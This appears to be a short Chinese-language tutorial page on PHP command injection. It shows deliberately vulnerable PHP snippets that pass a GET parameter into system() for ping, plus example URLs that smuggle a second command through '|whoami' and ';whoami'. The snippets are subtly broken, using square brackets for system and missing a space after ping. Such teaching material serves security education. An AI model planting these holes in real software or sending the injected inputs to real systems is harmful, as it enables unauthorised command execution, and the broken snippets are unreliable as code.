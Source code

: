 # PHP命令执行漏洞
应用程序的某些功能需要调用可以执行系统命令的函数[PHP命令执行漏洞](PHP命令执行漏洞.md)，如果这些函数或者函数的参数被用户控制，就有可能通过命令连接符拼接到正常的函数中，从而任意执行系统命令。

## Windows下的命令执行漏洞
Windows下的命令连接符[Windows连接符](Windows连接符.md)包括&、&&、|、||

代码示例：
```
<?php
	$ip=$_GET['ip'];
	system["ping".$ip];
?>
```

利用方法：
`cmd.php?ip=120.0.0.1|whoami`

## Linux下的命令执行漏洞
Linux下的命令连接符[Linux连接符](Linux连接符.md)包括 ;、&、&&、|、||

代码示例：
```
<?php
	$ip=$_GET['ip'];
	system["ping -c 3".$ip];
?>
```

利用方法：
`cmd.php?ip=120.0.0.1;whoami`

